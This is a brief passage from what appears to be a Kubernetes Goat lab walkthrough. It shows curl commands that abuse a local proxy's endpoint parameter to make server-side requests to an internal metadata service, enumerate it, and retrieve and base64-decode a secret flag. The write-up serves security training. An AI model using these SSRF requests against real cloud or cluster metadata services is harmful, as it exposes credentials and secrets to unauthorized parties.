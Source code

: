 ## Interacting with Metadata server
We can explore the metadata server by changing the endpoint 

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/","method":"GET","headers":""}' 
```

After enumerating through the entire key values, finally we can see that there is a flag at http://metadata-db/latest/secrets/kubernetes-goat endpoint.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/secrets/kubernetes-goat","method":"GET","headers":""}' 
```

* We can decode the secret flag.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/secrets/kubernetes-goat","method":"GET","headers":""}'  | jq .data |tr -d '"'| base64 -d &&echo 
```

